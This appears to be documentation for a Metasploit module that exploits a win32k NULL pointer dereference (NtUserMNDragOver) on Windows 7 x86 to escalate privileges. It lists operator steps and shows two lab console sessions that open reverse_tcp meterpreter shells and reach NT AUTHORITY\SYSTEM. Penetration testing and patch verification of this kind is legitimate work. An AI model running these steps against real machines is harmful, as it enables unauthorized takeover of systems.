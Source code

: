 ## Vulnerable Application

This module exploits a NULL pointer dereference vulnerability in MNGetpItemFromIndex(), which is reachable via a NtUserMNDragOver() system call.
The NULL pointer dereference occurs because the xxxMNFindWindowFromPoint() function does not effectively check the validity of the tagPOPUPMENU objects it processes before passing them on to MNGetpItemFromIndex(), where the NULL pointer dereference will occur.
This module has been tested against Windows 7 x86 SP0 and SP1. Offsets within the solution may need to be adjusted to work with other versions of Windows, such as Windows Server 2008.

## Verification Steps

1. Get a non-SYSTEM meterpreter session on Windows 7 x86
1. `use exploit/windows/local/ntusermndragover`
1. `set session <session>`
1. `set payload windows/meterpreter/reverse_tcp`
1. `set LHOST <LHOST>`
1. `set LPORT 5555`
1. `exploit`
1. Get a SYSTEM session

## Scenarios

### Windows 7 SP0 x86

```
msf5 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                     Information             Connection
  --  ----  ----                     -----------             ----------
  1         meterpreter x86/windows  User-PC\User @ USER-PC  192.168.56.1:4444 -> 192.168.56.15:49158 (192.168.56.15)

msf5 exploit(multi/handler) > use exploit/windows/local/ntusermndragover
msf5 exploit(windows/local/ntusermndragover) > set session 1
session => 1
msf5 exploit(windows/local/ntusermndragover) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(windows/local/ntusermndragover) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf5 exploit(windows/local/ntusermndragover) > set LPORT 5555
LPORT => 5555
msf5 exploit(windows/local/ntusermndragover) > run

[*] Started reverse TCP handler on 192.168.56.1:5555
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Launching notepad.exe to host the exploit...
[+] Process 3464 launched.
[*] Injecting exploit into 3464 ...
[*] Exploit injected. Injecting payload into 3464...
[*] Payload injected. Executing exploit...
[*] Sending stage (176195 bytes) to 192.168.56.15
[*] Meterpreter session 2 opened (192.168.56.1:5555 -> 192.168.56.15:49159) at 2020-04-29 17:14:46 +0800

meterpreter > sysinfo
Computer        : USER-PC
OS              : Windows 7 (6.1 Build 7600).
Architecture    : x86
System Language : en_GB
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

### Windows 7 SP1 x86

```

msf5 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                     Information             Connection
  --  ----  ----                     -----------             ----------
  1         meterpreter x86/windows  User-PC\User @ USER-PC  192.168.56.1:4444 -> 192.168.56.5:49157 (192.168.56.5)

msf5 exploit(multi/handler) > use exploit/windows/local/ntusermndragover
msf5 exploit(windows/local/ntusermndragover) > set session 1
session => 1
msf5 exploit(windows/local/ntusermndragover) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(windows/local/ntusermndragover) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf5 exploit(windows/local/ntusermndragover) > set LPORT 5555
LPORT => 5555
msf5 exploit(windows/local/ntusermndragover) > run

[*] Started reverse TCP handler on 192.168.56.1:5555
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Launching notepad.exe to host the exploit...
[+] Process 2696 launched.
[*] Injecting exploit into 2696 ...
[*] Exploit injected. Injecting payload into 2696...
[*] Payload injected. Executing exploit...
[*] Sending stage (176195 bytes) to 192.168.56.5
[*] Meterpreter session 2 opened (192.168.56.1:5555 -> 192.168.56.5:49158) at 2020-04-29 17:18:00 +0800

meterpreter > sysinfo
Computer        : USER-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x86
System Language : en_GB
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
